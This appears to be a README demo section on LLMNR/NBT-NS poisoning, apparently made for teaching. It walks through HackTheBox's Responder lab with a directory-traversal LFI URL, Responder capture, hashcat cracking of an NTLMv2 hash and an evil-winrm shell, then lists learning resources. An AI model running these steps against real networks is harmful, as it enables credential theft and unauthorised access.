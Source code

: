## Demo

The demo is based on the Responder machine available on Hackthebox : https://app.hackthebox.com/starting-point 

- Connect to the VPN, now we are on the same LAN as the target machine
- Add `unika.htb` in the `/etc/hosts` since the server is a `name based virtual host`
- Show the responder configuration file in `/opt/tools/Responder/Responder.conf`
- Launch responder `responder -I tun0 -dvw`
- Trigger a DNS error via an LFI in the target's website by searching for a share that does not exist (can show the existence of the lfi by visiting http://unika.htb/index?page=../../../../../../../../windows/system32/drivers/etc/hosts)
- Receive the uer credentials, crack it with hashcat `hashcat -m 5600 -a 0 hash.txt /usr/share/wordlist/rockyou.txt`
- Gain a shell with evil-winrm and its command: `evil-winrm -i <our-ip-address> -u <username> -p <password>`

## Sources and resources

- The hacker recipe: https://www.thehacker.recipes/
- Benheater notes: https://notes.benheater.com/books/active-directory/
- Hackethebox academy AD modules: https://academy.hackthebox.com/module/details/74/ & https://academy.hackthebox.com/module/details/143/
- Responder on Github: https://github.com/lgandx/Responder
- French and English article about NBTNS & LLMNR poisoning: http://remivernier.com/index.php/2018/08/26/protocoles-nbt-ns-llmnr-et-exploitation-des-failles/ & https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning/
- If you want to learn more about the network protocols mentionned:
    - LLMNR: https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution
    - NBTNS: https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP 
    - MDNS: https://en.wikipedia.org/wiki/Multicast_DNS 
    - LANMAN: https://en.wikipedia.org/wiki/LAN_Manager 
    - BROWSER: https://en.wikipedia.org/wiki/Browser_service
- French Openclassrooms lesson: https://openclassrooms.com/fr/courses/7723396-assurez-la-securite-de-votre-active-directory-et-de-vos-domaines-windows
- PetiPotam on Github: used for NTLM relays
